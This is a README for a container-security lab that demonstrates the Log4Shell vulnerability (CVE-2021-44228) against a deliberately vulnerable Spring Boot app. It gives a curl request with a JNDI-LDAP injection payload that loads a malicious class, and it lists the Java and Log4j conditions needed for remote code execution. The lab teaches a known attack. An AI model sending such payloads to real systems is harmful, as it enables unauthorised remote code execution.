

# Log4Shell Vulnerable Lab Demo

This project demonstrates a working proof-of-concept (PoC) of the infamous Log4Shell vulnerability (CVE-2021-44228), leading to remote code execution (RCE) via a vulnerable Java web application.

---

## 🔥 What This Demonstrates

- A Spring Boot app using **Log4j 2.14.1**
- Java runtime **1.8.0_131** (vulnerable version)
- `LDAPRefServer` (from [marshalsec](https://github.com/mbechler/marshalsec)) simulating a malicious LDAP redirect
- A custom `Exploit.class` that triggers RCE when loaded

---

## 🛠️ Project Structure

```
homework9/
├── docker-compose.yml
├── ldap/
│   ├── Dockerfile
│   ├── Exploit.java
├── web/
│   ├── Dockerfile
│   ├── pom.xml
│   └── src/
│       ├── main/
│       │   ├── java/com/example/
│       │   │   ├── Application.java
│       │   │   └── LogController.java
│       │   └── resources/
│       │       └── log4j2.xml
```

---

## 🚀 Running the Demo

```bash
docker-compose build
docker-compose up
```

1. Start containers and watch logs.
2. Send exploit request:
   ```bash
   curl "http://localhost:8080/log?input=${jndi:ldap://ldap:1389/Exploit}"
   ```
3. Look for output in `web-1`:
   ```
   💥 Exploit triggered — RCE confirmed!
   ```

---

## ✅ Success Indicators

- `💥 Exploit triggered` message printed from `Exploit.class`
- LDAP log shows redirect to Exploit.class
- Log4j version: 2.14.1
- Java version: 1.8.0_131

---

## ❌ Common Pitfalls

- Java version too new (must be Java ≤ 8u131 for exploit to work)
- `trustURLCodebase=false` prevents loading remote class (must be true or unset)
- Using Logback instead of Log4j

---

## 🧠 Mermaid Diagram



---

## 📚 References

- https://log4shell.com/
- https://github.com/mbechler/marshalsec
- https://www.lunasec.io/docs/blog/log4j-zero-day/

---

## 🛡️ Educational Purposes Only

**⚠️ This project is for educational and demonstration purposes only. Do not use in production.**

---

## 🧑‍💻 Author

**Timothy Brennan**  
For educational use in container security labs.

---